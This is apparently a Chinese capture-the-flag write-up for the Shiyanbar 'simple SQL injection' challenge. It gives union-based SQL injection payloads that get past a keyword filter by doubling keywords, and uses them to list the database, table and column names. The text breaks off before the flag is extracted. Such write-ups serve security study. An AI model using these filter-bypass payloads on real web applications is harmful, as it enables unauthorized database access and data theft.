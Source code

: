 # 实验吧简单的 sql 注入

## 简单的 sql 注入

通过注入获得 flag 值（提交格式：flag{}）。
[解题链接](http://ctf5.shiyanbar.com/423/web/)

这里过滤了很多关键字，需要尝试多次以后才能构造出正确的 payload。以下为每一步的 payload。

获取库名：

```sql
' unionunion  selectselect  database() '
```

![](/pics/WEB集训/二/27.png)

获取表名：

```sql
'  unionunion  selectselect  table_name  fromfrom  information_schema.tables  wherewhere  table_table_schemaschema='web1
```

![](/pics/WEB集训/二/28.png)

获取列名：

```sql
' unionunion  selectselect  column_namcolumn_namee  fromfrom  information_schema.coluinformation_schema.columnsmns  wherewhere  table_table_schemaschema='web1' andand  table_name='flag
```

